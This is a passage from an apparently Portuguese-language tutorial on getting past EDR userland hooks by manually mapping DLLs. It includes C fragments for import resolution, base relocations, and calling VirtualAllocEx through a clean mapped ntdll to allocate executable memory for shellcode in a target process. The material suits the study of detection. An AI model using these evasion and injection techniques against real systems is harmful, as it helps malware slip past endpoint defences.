 ```
                GetProcAddressManual(module, importByName->Name);
            
            thunk++;
        }
        importDesc++;
    }
}
```
Nesta etapa ajustam‑se todos os endereços internos da biblioteca quando ela não pode ser carregada exatamente no endereço que esperava. É como atualizar mapas e referências para que tudo continue a apontar para o lugar certo após a realocação. Então vamos ajustar os endereços internos da imagem PE de acordo com o deslocamento entre a base preferida definida no binário e a base efetivamente alocada em memória.

```
void ProcessRelocations(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    DWORD_PTR delta = (DWORD_PTR)baseAddr - 
        ntHeader->OptionalHeader.ImageBase;
    
    IMAGE_BASE_RELOCATION* reloc = GetBaseRelocation(baseAddr, ntHeader);
    
    while (reloc->VirtualAddress) {
        WORD* relocItem = (WORD*)((char*)reloc + 
            sizeof(IMAGE_BASE_RELOCATION));
        
        int count = (reloc->SizeOfBlock - 
            sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
        
        for (int i = 0; i < count; i++) {
            if ((relocItem[i] >> 12) == IMAGE_REL_BASED_DIR64) {
                DWORD_PTR* addr = (DWORD_PTR*)((char*)baseAddr + 
                    reloc->VirtualAddress + (relocItem[i] & 0xFFF));
                *addr += delta;
            }
        }
        
        reloc = (IMAGE_BASE_RELOCATION*)((char*)reloc + 
            reloc->SizeOfBlock);
    }
}
```
Nesta etapa final, o código da biblioteca mapeada é efetivamente utilizado: as funções exportadas são identificadas e chamadas para que a biblioteca execute as suas funcionalidades dentro do processo onde foi colocada.

```
typedef LPVOID (WINAPI* VirtualAllocExFunc)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);

VirtualAllocExFunc cleanVirtualAllocEx = 
    (VirtualAllocExFunc)GetProcAddressFromMapped(mappedNtdll, "VirtualAllocEx");

LPVOID memory = cleanVirtualAllocEx(targetProcess, NULL, 
    shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
# Limitações do Userland Hooking
Uma limitação é que os hooks são aplicados exclusivamente às bibliotecas dinâmicas (DLLs) que foram carregadas através do processo normal do **Windows PE Loader**. Isso significa que o EDR pode modificar apenas as funções presentes em bibliotecas já mapeadas no espaço de endereçamento do processo através dos métodos convencionais. Consequentemente, DLLs que são carregadas manualmente na memória, contornando o loader padrão, mantêm suas implementações originais sem qualquer modificação ou interceptação. 

